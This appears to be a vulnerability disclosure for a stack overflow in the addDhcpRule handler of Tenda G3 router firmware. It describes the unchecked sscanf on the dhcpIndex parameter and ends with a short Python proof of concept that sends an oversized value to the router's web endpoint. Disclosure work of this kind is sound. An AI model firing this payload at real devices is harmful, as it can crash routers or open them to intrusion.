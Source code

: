 # Tenda G3 addDhcpRule
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the addDhcpRule function.
### Vulnerability details
In the function addDhcpRule line 27, it reads in a user-provided parameter, and the variable dhcpIndex is passed to the sscanf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/addDhcpRule-1.png)
![](images/addDhcpRule-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/addDhcpRule'
payload = {
    "dhcpIndex": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
